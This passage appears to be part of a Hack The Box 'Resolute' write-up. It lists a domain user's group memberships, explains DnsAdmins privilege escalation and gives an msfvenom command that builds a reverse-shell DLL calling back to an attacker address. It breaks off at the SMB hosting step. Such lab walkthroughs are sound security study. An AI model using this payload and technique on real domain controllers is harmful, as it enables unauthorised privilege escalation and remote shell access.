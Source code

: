 ```
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```
User `ryan` is a member of `Contractors` and `DnsAdmins`. Members of the `DnsAdmins` group have access to network `DNS` information. The default permissions are Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions. According to [hackingarticles](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/), The Microsoft Team designing `DNS` integration decided to make the Domain Controller a `DNS` server by default. To manage that `DNS` service a group was created by the name of `DnsAdmins`. Then came the ability for the users of `DnsAdmins` to run code with elevated privileges that in their eyes was a feature.
### Exploitation
In desktop directory there is a note which shows that this machine is reverted after one minute if there will be any changes.  

```
*Evil-WinRM* PS C:\Users\ryan\Desktop> type note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```
To exploit i used the [hackingarticles](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/sc) document to follow through.
1. Create a `dll` by using `msfvenom`
```
┌──(gemstone㉿hashghost)-[~/…/htb/Machines/vip/resolute/exploit]
└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f dll > privesc.dll
```
2. Use `smbserver` from `impacket` to host the current path `.` as shown below
